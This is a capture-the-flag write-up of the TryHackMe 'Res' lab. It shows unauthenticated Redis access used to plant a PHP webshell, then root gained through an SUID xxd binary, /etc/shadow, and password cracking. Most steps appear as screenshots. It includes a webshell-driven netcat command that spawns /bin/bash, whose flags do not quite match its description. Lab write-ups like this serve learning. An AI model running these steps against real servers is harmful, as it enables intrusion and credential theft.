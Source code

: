 # Res - Tryhackme Writeup

**Res is a vulnerable machine on TryHackMe. Though this machine, I was introduced to Redis (Remote Dictionary Server). It is the most popular key:value store for use as database, cache or queue. Redis is totally insecure to let it be exposed over network. Redis does not have access control implementation and also it does not support encryption.**

# Walkthourgh  - Table of Contents

- [Reconnaissance](#Reconnaissance)
- [Vulnerability Identification](#Vulnerability-Identification)
- [Exploitation](#Exploitation)
- [Post-Exploitation](#Post-Exploitation)

*P.S. In my walkthrough, I have two different IP's for Res vulnerable machine. When I was working through this activity, the time on the vulnerable machine expired and I had to restart it. Hence two IPs (10.10.131.41 and 10.10.47.158).*

## Reconnaissance

**Nmap scan to find out the open ports and services**

```nmap -sV  -sC -p- 10.10.131.41```

![nmap scan](/images/nmap_scan.png)

**From the results we see that we have an Apache web server running on port 80 and Redis 6.0.7  on port 6379.**

## Vulnerability Identification

**1. Port 80 running Apache web server

Visiting the web application on http://10.10.131.41:80, displayed a standard Apache landing page. Nothing was revealed by examining the source code

![Web Application on Port 80](images/web_application .png)

Next I ran a directory scan using Dirbuster to look for any hidden directories or files. but no hidden directories was found.

![web directory enumeration screenshot](/images/dirbuster.png)

Moving on to next open port 6379 and enumerating the Redis service.

2. Port 6379 running Redis 6.0.7

After researching on Redis, I found out following issues that could be exploited.
* By default Redis can be accessed without credentials
* Using Redis we could write a webshell, if we know the directory path of the web application.**

## Exploitation

**To access Redis on 10.10.131.41, I installed redis-tools on my kali machine**

```sudo apt-get install redis-tools```

![redis_tools installation screenshot](/images/redis_tools.png)

**I try to connect to a Redis server without a password and I was successfully connected to Redis server.**

![redis connect screenshot](/images/connect_redis.png)

**Running the “INFO” command listed out the redis version, operating system, architecture, and more.**

![redis info screenshot](/images/info_redis.png)


**Writing a php script and saving it to the web directory**

![Webshell screenshot](/images/webshell.png)

**Shell writing is complete, executing it on the target machine**

![Webshell execution screenshot](/images/webshell_execution.png)

**Make a netcat connection to the attacker IP**

```10.10.131.41/shell.php?c=nc -e /bin/bash -lnvp 8888```

![access screenshot](/images/user.png)

## Post-Exploitation

### Privilage Escalation

**SUID bit is set for xxd**

![suid screenshot](/images/xxd_0.png)

**Referencing [GTFOBins](https://gtfobins.github.io/gtfobins/xxd/), I learnt that xxd may be used to do privileged reads or disclose files outside a restricted file system. Using this capabilities, I gained read access of /etc/shadow file.**

![xxd screenshot](/images/xxd.png)


**Local user password hash from /etc/shadow file was found**

![password hash screenshot](/images/shadow.png)

**Using john the ripper, I cracked the local user password.**

![password cracked screenshot](/images/john.png)

**Once I logon as the user. I found that the user has full sudo privileges. Using this privilage, I was able to switch user as root and gain root access**

Root access
![sudo screenshot](/images/root_access.png)







